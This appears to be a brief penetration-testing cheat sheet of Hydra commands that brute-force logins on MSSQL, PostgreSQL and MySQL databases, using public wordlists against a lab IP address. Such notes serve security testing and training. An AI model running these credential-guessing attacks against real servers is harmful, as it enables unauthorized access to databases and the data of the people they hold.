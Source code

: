 ## Hydra on Microsoft SQL Server Database
hydra -L /root/Bureau/SecLists/Usernames/top-usernames-shortlist.txt -P /root/Bureau/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.56.110 -e sn -f mssql
hydra -L username.txt -P password.txt 192.168.56.110 -e sn -f mssql

## Hydra on Postgres SQL Server Database
hydra -L username.txt -P password.txt 192.168.56.110 -e sn -f postgres

## Hydra on MySQL/MariaDB Database
hydra -L username.txt -P password.txt 192.168.56.110 -e sn -f mysql